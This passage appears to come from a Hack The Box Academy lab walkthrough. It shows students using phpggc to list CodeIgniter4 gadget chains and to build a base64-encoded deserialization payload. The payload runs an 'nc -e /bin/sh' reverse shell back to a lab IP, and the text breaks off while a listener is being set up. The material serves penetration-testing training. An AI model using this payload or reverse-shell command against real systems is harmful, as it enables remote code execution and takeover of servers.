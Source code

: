 Students then need to make the PHP script `phpggc` executable:

Code: shell

```shell
chmod +x phpggc
```

```shell
┌─[eu-academy-1]─[10.10.14.107]─[htb-ac413848@htb-tihlybxmyf]─[~/phpggc]
└──╼ [★]$ chmod +x phpggc
```

Subsequently, students need to list the gadget chains available for `CodeIgniter`:

Code: shell

```shell
./phpggc -l CodeIgniter
```

```shell
┌─[eu-academy-1]─[10.10.14.162]─[htb-ac413848@htb-ki6dnhlkny]─[~/phpggc]
└──╼ [★]$ ./phpggc -l CodeIgniter

Gadget Chains
-------------

NAME                 VERSION                       TYPE                   VECTOR        I    
CodeIgniter4/RCE1    4.0.2 <= 4.0.3                RCE (Function call)    __destruct         
CodeIgniter4/RCE2    4.0.0-rc.4 <= 4.0.4+          RCE (Function call)    __destruct         
CodeIgniter4/RCE3    -4.1.3+                       RCE (Function call)    __destruct         
CodeIgniter4/RCE4    4.0.0-beta.1 <= 4.0.0-rc.4    RCE (Function call)    __destruct      
```

Students need to utilize `CodeIgniter4/RCE3` to call the PHP function `system` with the argument `nc -nv PWNIP PWNPO -e /bin/sh` and encode the payload to base64 with the option `-b`:

Code: shell

```shell
./phpggc CodeIgniter4/RCE3 system 'nc -nv PWNIP PWNPO -e /bin/sh' -b
```

```shell
┌─[eu-academy-1]─[10.10.14.162]─[htb-ac413848@htb-ki6dnhlkny]─[~/phpggc]
└──╼ [★]$ ./phpggc CodeIgniter4/RCE3 system 'nc -nv 10.10.14.162 9001 -e /bin/sh' -b

TzozOToiQ29kZUlnbml0ZXJcQ2FjaGVcSGFuZGxlcnNcUmVkaXNIYW5kbGVyIjoxOntzOjU6InJlZGlzIjtPOjQ1OiJDb2RlSWduaXRlclxTZXNzaW9uXEhhbmRsZXJzXE1lbWNhY2hlZEhhbmRsZXIiOjI6e3M6NzoibG9ja0tleSI7czo5OiJGaXJlYmFza3kiO3M6OToibWVtY2FjaGVkIjtPOjIwOiJGYWtlclxWYWxpZEdlbmVyYXRvciI6Mzp7czoxMjoiACoAZ2VuZXJhdG9yIjtPOjIyOiJGYWtlclxEZWZhdWx0R2VuZXJhdG9yIjoxOntzOjEwOiIAKgBkZWZhdWx0IjtzOjM1OiJuYyAtbnYgMTAuMTAuMTQuMTYyIDkwMDEgLWUgL2Jpbi9zaCI7fXM6MTI6IgAqAHZhbGlkYXRvciI7czo2OiJzeXN0ZW0iO3M6MTM6IgAqAG1heFJldHJpZXMiO2k6MTt9fX0=
```

Then, students need to start an `nc` listener with the same port utilized in the reverse shell command (9001 in here):

Code: shell
